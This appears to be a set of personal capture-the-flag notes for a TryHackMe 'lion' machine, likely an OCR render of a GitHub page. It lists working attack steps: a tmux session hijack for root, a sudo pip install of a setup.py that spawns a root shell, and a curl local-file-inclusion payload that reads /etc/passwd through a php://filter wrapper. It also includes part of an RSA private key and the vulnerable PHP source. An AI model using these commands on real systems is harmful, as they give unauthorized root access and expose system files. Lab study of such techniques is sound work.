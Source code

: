 ```bash
BYxl0pcZPaeUiwdR/bycLK1tBZm5kVSGIU2fK7IsKrgqZxzKS6kdr2FFsKs3HWMF
ScVJZPT4dqDo3PSIQUw7q0GixCLLdDU9p45CSKPVySYyiGU22RTQS2ccGEcCTurj
lcY0pO4wZmm5GkseF5moa/1c3aOUZOESAlWGpEg5PNPt3U/SWJTpziGv3NY5DLq9
R9OsbX0gkO711f8RvRTELQIYFIO/0LcKTjY16g8MtBlMKYCyJ0cWLVWAUoggJxiR
-----END RSA PRIVATE KEY-----

# ROOT PATHS

//gloria root path:
export TMUX=/.dev/session,1234,0
tmux

//alex path:
TF=$(mktemp -d)
echo "import pty; pty.spawn('/bin/bash')" > $TF/setup.py
sudo pip install $TF
```


LFI on 5555
```
curl --path-as-is` http://lion.thm:5555/?page=php://filter/convert.base64-encode/resource=../../../../etc/passwd
```

https://github.com/MatheuZSecurity/Koth-TryHackMe-Tricks/blob/master/README.md#-patching-web-application-vulnerable-
```
root@lion:/var/www/nginx# cat -v index.php
<html>
<head>
<link rel="stylesheet" type="text/css" href="bootstrap.min.css">
</head>
<body>
<nav class="navbar navbar-expand-lg navbar-dark bg-dark">
  <a class="navbar-brand" href="/">Gloria's Personal Site</a>
  <button class="navbar-toggler" type="button" data-toggle="collapse" data-target="#navbarColor02" aria-controls="navbarColor02" aria-expanded="false" aria-label="Toggle navigation">
    <span class="navbar-toggler-icon"></span>
  </button>

  <div class="collapse navbar-collapse" id="navbarColor02">
    <ul class="navbar-nav mr-auto">
      <li class="nav-item active">
        <a class="nav-link" href="/">Home <span class="sr-only">(current)</span></a>
      </li>
      <li class="nav-item">
        <a class="nav-link" href="?page=posts.php">Posts</a>
      </li>
      <li class="nav-item">
        <a class="nav-link" href="?page=about.php">About</a>
      </li>
    </ul>
  </div>
</nav>
<div class="container"><br />
<h2>Gloria's Personal Site</h2>
<img src="image.png" style="width:400px;height:300px;"><br />
<?php
$allowedPages = array(
    'posts.php',
    'about.php'
);

$page = $_GET["page"];
```